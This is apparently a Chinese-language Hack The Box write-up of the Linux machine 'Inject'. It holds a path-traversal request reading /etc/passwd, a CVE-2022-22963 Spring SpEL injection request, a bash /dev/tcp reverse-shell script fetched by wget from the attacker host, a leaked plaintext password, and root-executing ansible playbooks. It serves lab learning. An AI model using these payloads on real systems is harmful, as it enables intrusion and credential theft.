

---
tags:
  - HTB/Linux
  - HTB/Easy
---

## 扫描

- 22/tcp: OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
- 8080/tcp: Nagios NSCA


## 漏洞分析

- 22端口这个版本似乎无法利用
- 关注8080，curl连接了一下没有Location字段。打开浏览器直接访问目标的8080端口

### 8080端口

- robots.txt：无
- 网页源码：无特别发现
- 子域枚举：无域名所以对象外
- 目录枚举：
	- /blogs                (Status: 200) [Size: 5371]
	- /register             (Status: 200) [Size: 5654]
	- /upload               (Status: 200) [Size: 1857]
	- /environment          (Status: 500) [Size: 712]
	- /error                (Status: 500) [Size: 106]
	- /release_notes        (Status: 200) [Size: 1086]
	- /show_image           (Status: 400) [Size: 194]


#### 研究网页功能

- 左上方的 `Blogs`。跳转/blogs界面，有3篇文章。无法点击。
    - 此处文章作者共有2位：admin，Brandon Auger。
- 右上角的 `upload`。功能有用，不过仅允许上传图片文件。  
    - > Only image files are accepted!
    - 上传图片之后可在此URL访问：http://10.10.11.204:8080/show_image?img=TEST.png

所以应该是研究上传webshell了，结合靶机名字，估计是抓包注入什么参数。

用Burp尝试了一下仅修改文件后缀名即可上传。不过访问会以图片的形式显示报错信息。
网页源码：
```html
<body>
    
</body>
```

以及上传的文件会被定期清除的样子。

尝试在img参数放放单引号什么的，没啥用。  

#### 目录遍历

尝试目录遍历，发现 `img=../` 能显示文件：  


噢……看来不是上传webshell

尝试获取 `/etc/passwd`：
```
GET /show_image?img=../../../../../../etc/passwd HTTP/1.1

---

root:x:0:0:root:/root:/bin/bash
……
frank:x:1000:1000:frank:/home/frank:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
phil:x:1001:1001::/home/phil:/bin/bash
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:997:996::/var/log/laurel:/bin/false
```

注意这两个id 1000以后的：  
> frank:x:1000:1000:frank:/home/frank:/bin/bash  
> phil:x:1001:1001::/home/phil:/bin/bash


可以发现user.txt就在phil的家目录里，不过访问了一下没有获取到结果，应该是没有权限。

再回到最初的 `../` 目录下，好像看到java。应该是关于8080端口部署的服务。  
探索：

| payload | 信息 |
| - | - |
| ../../../.project | \<name\>org.springframework.ide.eclipse.boot.validation.springbootbuilder\</name\> |
| ../../../HELP.md | Official Apache Maven |
| ../../../pom.xml | http://maven.apache.org/POM/4.0.0 |

因为有版本号的样子，搜了一下“maven pom 4.0.0 exploit”。找到文章学习一下这个POM。似乎这个文件还挺重要的，这个服务就是用这个文件部署的意思？
> <https://security.humanativaspa.it/abusing-mavens-pom-xml/>

#### pom.xml

仔细看看这个pom.xml，里面还挺多版本信息的。

- pom: 4.0.0
- spring-boot-starter-parent: 2.6.5
- WebApp(?): 0.0.1-SNAPSHOT
- java: 11
- javax.activation: 1.2.0
- spring-cloud-function-web: 3.2.2
- bootstrap: 5.1.3

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
	xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
	<modelVersion>4.0.0</modelVersion>
	<parent>
		<groupId>org.springframework.boot</groupId>
		<artifactId>spring-boot-starter-parent</artifactId>
		<version>2.6.5</version>
		<relativePath/> <!-- lookup parent from repository -->
	</parent>
	<groupId>com.example</groupId>
	<artifactId>WebApp</artifactId>
	<version>0.0.1-SNAPSHOT</version>
	<name>WebApp</name>
	<description>Demo project for Spring Boot</description>
	<properties>
		<java.version>11</java.version>
	</properties>
	<dependencies>
		<dependency>
  			<groupId>com.sun.activation</groupId>
  			<artifactId>javax.activation</artifactId>
  			<version>1.2.0</version>
		</dependency>

		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-thymeleaf</artifactId>
		</dependency>
		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-web</artifactId>
		</dependency>

		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-devtools</artifactId>
			<scope>runtime</scope>
			<optional>true</optional>
		</dependency>

		<dependency>
			<groupId>org.springframework.cloud</groupId>
			<artifactId>spring-cloud-function-web</artifactId>
			<version>3.2.2</version>
		</dependency>
		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-test</artifactId>
			<scope>test</scope>
		</dependency>
		<dependency>
			<groupId>org.webjars</groupId>
			<artifactId>bootstrap</artifactId>
			<version>5.1.3</version>
		</dependency>
		<dependency>
			<groupId>org.webjars</groupId>
			<artifactId>webjars-locator-core</artifactId>
		</dependency>

	</dependencies>
	<build>
		<plugins>
			<plugin>
				<groupId>org.springframework.boot</groupId>
				<artifactId>spring-boot-maven-plugin</artifactId>
				<version>${parent.version}</version>
			</plugin>
		</plugins>
		<finalName>spring-webapp</finalName>
	</build>

</project>
```

搜“spring-boot-starter-parent 2.6.5 exploit”能看到这几篇文章：
> <https://www.fastly.com/jp/blog/spring-has-sprung-breaking-down-cve-2022-22963-and-spring4shell-cve-2022>  
> <https://codetinkering.com/spring4shell-vulnerability-fix>


## Initial Access

### PoC (CVE-2022-22963)

本来以为是CVE-2022-22965，用msf试了下不行的样子。

用Burp试了一下上面的文章里CVE-2022-22963的PoC，然后又目录遍历看了下，确认有成功创建 `/tmp/pwned`。
```http
POST /functionRouter HTTP/1.1
host:127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.2 Safari/605.1.15
Connection: close
spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("touch /tmp/pwned")
Content-Length: 1

.
```

尝试payload换成反弹shell一直没反应。好像是只要有重定向符号就不行？（用没有重定向符的反弹shell也没反应，可能是没命令环境吧。不是很懂）

那试试将shell传过去？  
kali里创建反弹shell脚本后用python开启http服务。  
```bash
└─$ cat ss.sh
#!/usr/bin/bash
/usr/bin/bash -i >& /dev/tcp/10.xx.xx.xx/4444 0>&1

└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.204 - - [26/May/2023 08:00:26] "GET /ss.sh HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.

└─$ nc -lvnp 4444           
listening on [any] 4444 ...
```

Brup也一边控制目标机获取反弹shell，然后执行，payload如下：

- `wget 10.xx.xx.xx:80/ss.sh -O /tmp/ss.sh`
- `bash /tmp/ss.sh`

成功获得frank用户的shell：
```bash
└─$ nc -lvnp 4444           
listening on [any] 4444 ...
connect to [10.xx.xx.xx] from (UNKNOWN) [10.10.11.204] 42834
bash: cannot set terminal process group (789): Inappropriate ioctl for device
bash: no job control in this shell
frank@inject:/$ id
id
uid=1000(frank) gid=1000(frank) groups=1000(frank)
```

顺便看了一眼，原来刚刚的任意命令执行，传过去的反弹shell属主就是frank。

探索SUID无发现。

### 发现phil用户密码

然后看了看家目录，发现隐藏文件夹 `.m2`，又从里面的 `settings.xml` 发现phil用户的账号密码：
```xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```


## flag: user

移动到用户phil：
```bash
frank@inject:/$ su phil
su phil
Password: DocPhillovestoInject123

id
uid=1001(phil) gid=1001(phil) groups=1001(phil),50(staff)

cat ~/user.txt
1bf3……3bf1
```

*一开始 `su` 输入命令之后看终端没什么显示，还以为不行……然后SSH也连接失败。整得我以为卡了还直接Ctrl+C退出了*  
*不管咋的切换用户之后还是得id看一下啊……*  
*后来才知道原来简单执行 `bash -i` 就行*
```bash
bash -i
bash: cannot set terminal process group (789): Inappropriate ioctl for device
bash: no job control in this shell
phil@inject:~$ 
```


## Privilege Escalation

注意phil用户有个不寻常的组“50(staff)”。

直接find一下属于staff组的文件：
```bash
find / -group staff 2>/dev/null
/opt/automation/tasks
/root
/var/local
/usr/local/lib/python3.8
……
```

竟然有root，不过详细看了下其实staff组在root目录没有任何权限。  
那就看看下一个较可疑的文件/目录 `/opt/automation/tasks`。

先看看权限，staff组是有所有权限的：
```bash
drwxrwxr-x 2 root staff 4096 May 26 13:24 tasks/
```

tasks里面有个root权限的yml文件。这不是ansible嘛，正好自己有玩过
```yml
phil@inject:/opt/automation$ cd tasks
phil@inject:/opt/automation/tasks$ ll
-rw-r--r-- 1 root root   150 May 26 13:30 playbook_1.yml

phil@inject:/opt/automation/tasks$ cat playbook_1.yml
cat playbook_1.yml
- hosts: localhost
  tasks:
  - name: Checking webapp service
    ansible.builtin.systemd:
      name: webapp
      enabled: yes
      state: started
```

所以我们可以在tasks目录里写入一个get shell的playbook？但是该怎么执行呢？

看了眼sudo也没有关于ansible的：
```bash
phil@inject:/opt/automation$ sudo -lS
sudo -lS
[sudo] password for phil: DocPhillovestoInject123
Sorry, user phil may not run sudo on localhost.
```

SUID也没有能利用的。

`ansible` 命令倒是能运行，但是跑起来会是root权限吗？——playbook里面的话倒是可以用 `become: true` 实现。

总之先写playbook吧。


### 升级为交互shell

在这之前，目前的非交互shell在使用vim的时候好像会怪怪的，将其转成交互shell：
```bash
phil@inject:/opt/automation/tasks$ which python python3
which python python3
/usr/bin/python3
phil@inject:/opt/automation/tasks$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<sks$ python3 -c 'import pty;pty.spawn("/bin/bash")'
phil@inject:/opt/automation/tasks$ export TERM=xterm
export TERM=xterm
phil@inject:/opt/automation/tasks$ ^Z
zsh: suspended  nc -lvnp 4444
                                                                        
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444

phil@inject:/opt/automation/tasks$ 
```

### 编写ansible playbook

先测试一下
```bash
- hosts: localhost
  tasks:
    - name: Run a command as root
      shell: "id > /tmp/test; chmod 777 /tmp/test"
      become: true
```

*一直用AWX，没怎么用过ansible的命令行……正当我看ansible的help时，我刚写的playbook就被删了……*

运行playbook，报错：
```bash
phil@inject:/opt/automation/tasks$ ansible-playbook test.yml 
[WARNING]: provided hosts list is empty, only localhost is available. Note that
the implicit localhost does not match 'all'

PLAY [localhost] ***************************************************************

TASK [Gathering Facts] *********************************************************
ok: [localhost]

TASK [Run a command as root] ***************************************************
fatal: [localhost]: FAILED! => {"changed": false, "module_stderr": "sudo: a password is required\n", "module_stdout": "", "msg": "MODULE FAILURE\nSee stdout/stderr for the exact error", "rc": 1}                                      

PLAY RECAP *********************************************************************
localhost                  : ok=1    changed=0    unreachable=0    failed=1    skipped=0    rescued=0    ignored=0
```

对哦……用 `become: true` 要root的密码……
迷茫……  

但是看了眼/tmp/下面有我playbook执行的结果？？

```bash
phil@inject:/opt/automation/tasks$ cat /tmp/test
uid=0(root) gid=0(root) groups=0(root)
```


## flag: root

emmmm，先不管了，拿flag试试。这次将playbook换成直接拿flag：
```yml
- hosts: localhost
  tasks:
    - name: Run a command as root
      shell: "cat /root/root.txt > /tmp/test; chmod 777 /tmp/test"
```

运行一下，报错。看了眼 `/tmp/test` 文件也没变化？  
难道有后台运行？好像之前看cron也没啥自动任务。  

`watch cat /tmp/test` 监控看看。  
突然就有flag了！看来果然有后台在运行啊……
> df13……7ceb


---

## 总结·后记

2023/05/26

root算是阴差阳错了……    
后来看[WP](https://hyperbeast.es/inject-htb/)提到，可以上传[pspy64](https://github.com/DominicBreuker/pspy)扫描会找到那个自动运行的进程？但是ps为啥看不了？不是很懂……有空试试这个。